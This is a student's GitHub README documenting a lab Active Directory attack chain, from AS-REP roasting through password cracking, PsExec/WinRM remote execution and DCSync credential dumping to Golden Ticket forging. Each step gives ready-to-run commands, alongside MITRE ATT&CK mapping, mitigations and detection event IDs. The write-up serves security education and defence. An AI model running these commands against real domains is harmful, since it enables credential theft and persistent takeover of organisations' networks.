

<h1 align="center">🔴 Active Directory Attack Chain</h1>

<p align="center">
  <b>AS-REP Roasting → Full Domain Compromise</b>
</p>

<p align="center">
  Academic Security Research Project <br>
  UWE Bristol | The British College
</p>

<p align="center">
  
  
  
  
</p>

---

## 📖 Overview

This project demonstrates a complete **Active Directory attack chain** starting from **zero credentials** and ending in **full domain compromise** through a single Kerberos misconfiguration.

The attack was performed in a fully isolated VMware lab environment using industry-standard offensive security tools and mapped against the **MITRE ATT&CK Framework**.

### Key Objectives

- Demonstrate AS-REP Roasting attacks
- Perform offline password cracking
- Achieve remote code execution
- Dump domain credentials using DCSync
- Forge Golden Tickets for persistence
- Analyze defensive mitigations and detection opportunities

---

## ⚔️ Attack Flow



---

## 🛠️ Tools & Technologies

| Category | Tools |
|---|---|
| Enumeration | Nmap, Enum4Linux, Kerbrute |
| Credential Attacks | GetNPUsers.py, John the Ripper |
| Lateral Movement | PSExec, WMIExec, Evil-WinRM |
| Credential Dumping | secretsdump.py |
| Persistence | ticketer.py |
| Framework | MITRE ATT&CK |

---

## 🖥️ Lab Environment

| Component | Details |
|---|---|
| Domain Controller | Windows Server 2019 |
| Domain | `cyberlab_aj.local` |
| Attacker Machine | Kali Linux |
| Network | `192.168.10.0/24` |
| Environment | VMware Host-Only Lab |
| Vulnerability | `DONT_REQ_PREAUTH` Enabled |

---

## 🎯 MITRE ATT&CK Mapping

| Phase | Technique | MITRE ID |
|---|---|---|
| Reconnaissance | Network Service Discovery | T1046 |
| User Enumeration | Domain Account Discovery | T1087.002 |
| AS-REP Roasting | Steal Kerberos Tickets | T1558.004 |
| Password Cracking | Password Cracking | T1110.002 |
| Credential Access | Valid Accounts | T1078 |
| Remote Execution | Service Execution | T1569.002 |
| Credential Dumping | DCSync | T1003.003 |
| Persistence | Golden Ticket | T1558.001 |

---

# 🚀 Attack Demonstration

<details>
<summary><b>1️⃣ Reconnaissance</b></summary>

```bash
nmap -sC -sV -Pn 192.168.10.0/24
enum4linux -a 192.168.10.1
crackmapexec smb 192.168.10.1
```

</details>

---

<details>
<summary><b>2️⃣ User Enumeration</b></summary>

```bash
kerbrute userenum --dc 192.168.10.1 \
-d cyberlab_aj.local user.txt
```

</details>

---

<details>
<summary><b>3️⃣ AS-REP Roasting</b></summary>

```bash
GetNPUsers.py cyberlab_aj.local/ \
-userfile user.txt \
-dc-ip 192.168.10.1
```

</details>

---

<details>
<summary><b>4️⃣ Offline Password Cracking</b></summary>

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

---

<details>
<summary><b>5️⃣ Remote Code Execution</b></summary>

### PSExec

```bash
psexec.py cyberlab_aj.local/administrator:password@192.168.10.1
```

### WMIExec

```bash
wmiexec.py administrator@192.168.10.1
```

### Evil-WinRM

```bash
evil-winrm -i 192.168.10.1 \
-u administrator \
-p password
```

</details>

---

<details>
<summary><b>6️⃣ DCSync Credential Dumping</b></summary>

```bash
secretsdump.py cyberlab_aj.local/administrator:password@192.168.10.1
```

</details>

---

<details>
<summary><b>7️⃣ Golden Ticket Persistence</b></summary>

```bash
ticketer.py -nthash <KRBTGT_HASH> \
-domain cyberlab_aj.local \
-domain-sid <DOMAIN_SID> administrator
```

</details>

---

## 🔍 Key Findings

- A single Kerberos misconfiguration enabled full domain compromise.
- Administrator credentials were cracked from AS-REP hashes.
- SYSTEM-level access was achieved on the Domain Controller.
- DCSync enabled extraction of all domain credential hashes.
- Golden Ticket persistence allowed long-term privileged access.

---

## 🛡️ Defensive Recommendations

| Priority | Mitigation |
|---|---|
| 🔴 Critical | Enable Kerberos Pre-Authentication |
| 🔴 Critical | Enforce Strong Passwords + MFA |
| 🟠 High | Restrict DCSync Permissions |
| 🟠 High | Implement Tiered Administration |
| 🟡 Medium | Disable NTLM & RC4 |
| 🟡 Medium | Deploy SIEM + Sysmon Monitoring |

---

## 📊 Detection Opportunities

| Event ID | Description |
|---|---|
| 4768 | Suspicious Kerberos Requests |
| 4662 | DCSync Replication Activity |
| 7045 | Malicious Service Creation |
| 4624 | Suspicious SMB / WinRM Logons |

---

## ⚠️ Disclaimer

This project was conducted in a fully isolated virtual lab environment for educational and defensive security research purposes only.

Unauthorized testing against systems without permission is illegal and unethical.

---

## 👨‍💻 Author

### Ajaj Ahmed

BSc Cyber Security & Digital Forensics  
UWE Bristol | The British College  
Kathmandu, Nepal

🔐 SOC Analyst Learner | Active Directory Security | Threat Detection | Red Team Labs

---


<p align="center">
  ⭐ If you found this project useful, consider giving it a star.
</p>
